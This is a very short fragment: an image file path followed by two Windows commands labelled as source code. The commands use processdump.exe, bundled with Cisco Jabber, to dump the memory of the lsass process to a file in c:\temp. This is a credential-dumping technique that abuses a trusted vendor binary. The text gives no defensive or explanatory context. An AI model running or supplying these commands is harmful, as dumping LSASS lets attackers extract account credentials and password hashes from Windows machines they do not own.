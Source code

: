 	cd c:\program files (x86)\cisco systems\cisco jabber\x64\
	processdump.exe (ps lsass).id c:\temp\lsass.dmp